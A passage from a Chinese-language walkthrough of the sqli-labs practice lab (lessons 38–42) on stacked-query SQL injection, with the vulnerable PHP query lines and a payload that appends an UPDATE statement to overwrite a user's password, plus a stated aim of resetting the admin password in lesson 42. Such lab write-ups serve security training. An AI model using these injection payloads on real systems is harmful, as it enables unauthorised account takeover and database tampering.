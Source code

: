 查看结果，修改成功

![img](assets/1666786290535-62910fd5-52a8-4a32-92d3-7f1c8a92f05c.png)

```php
$sql="SELECT * FROM users WHERE id='1';update users set password='12345' where username='Dumb' ;--+' LIMIT 0,1";
```



## Less-39 stacked Query Intiger type（数字型无闭合，其余同上关）

$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";

## Less-40 stacked Query String type Blind（关闭报错的堆叠注入）

**这关关闭了报错，但是可以根据页面是否有内容来判断，语句是否正确**

## Less-41 stacked Query Intiger type blind（关闭报错的数字型无闭合堆叠注入）

**本关是无报错，其余同39关一样**

## Less-42 - Stacked Query error based

```php
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
 $password = $_POST["login_password"];
```

我们堆叠注入修改admin的密码

![img](assets/1666786579811-1f92450d-fdb5-4985-9f7b-d0dc99d58d6a.png)
